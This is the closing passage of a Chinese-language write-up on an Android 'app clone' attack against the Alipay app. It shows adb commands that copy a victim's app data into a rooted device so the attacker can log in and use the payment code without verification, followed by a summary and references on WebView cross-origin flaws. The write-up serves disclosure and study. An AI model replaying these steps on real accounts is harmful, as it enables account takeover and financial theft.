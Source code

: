 ```
adb -s 049219950024a175 install ~/Desktop/clone/apk/alipay.apk
adb -s 049219950024a175 shell
su
adb -s 049219950024a175 push ~/Desktop/clone/exp/clone_attack/ /sdcard/
cp -R /sdcard/clone_attack/* /data/data/com.eg.android.AlipayGphone/
chmod -R 777 /data/data/com.eg.android.AlipayGphone/
然后打开app即可
```

攻击者通过拷贝攻击，无需回答身份验证问题，无需短信验证，即可登录受害者账户，并且无需付款密码即可使用付款码

具体攻击操作可见视频演示（不是很会处理视频，导致视频质量有点差，希望大家不要介意）

<https://youtu.be/o6IbSAJUUYo>

## 0x05 总结

总的来说这个漏洞原理比较简单，克隆攻击所用到的漏洞类型都是已经在网上被曝出过的，

但是为什么还有如此多的app存在被这种攻击方式攻击的风险，这一点是值得思考的。

整个漏洞利用过程全靠自己猜想验证，如果哪里描述的不准确欢迎交流指正。

## 0x06 参考

1. 关于Android平台WebView控件存在跨域访问高危漏洞的安全公告
   <http://www.cnvd.org.cn/webinfo/show/4365?from=timeline&isappinstalled=0>
2. “应用克隆”攻击模型
   <https://mp.weixin.qq.com/s/pQqOLQS_hWfv8btYpYK1xQ>
3. Android安全开发之浅谈网页打开APP
   <https://yq.aliyun.com/articles/57088>
4. Webview跨源攻击分析
   <http://blogs.360.cn/360mobile/2014/09/22/webview%E8%B7%A8%E6%BA%90%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/>
5. Attack Your Android Apps By Webview
   <http://blog.knownsec.com/2013/03/attack-your-android-apps-by-webview/>
6. Andorid Intent 与 Chrome
   <https://developer.chrome.com/multidevice/android/intents?spm=5176.100239.blogcont57088.9.1c29be50KIPvAG>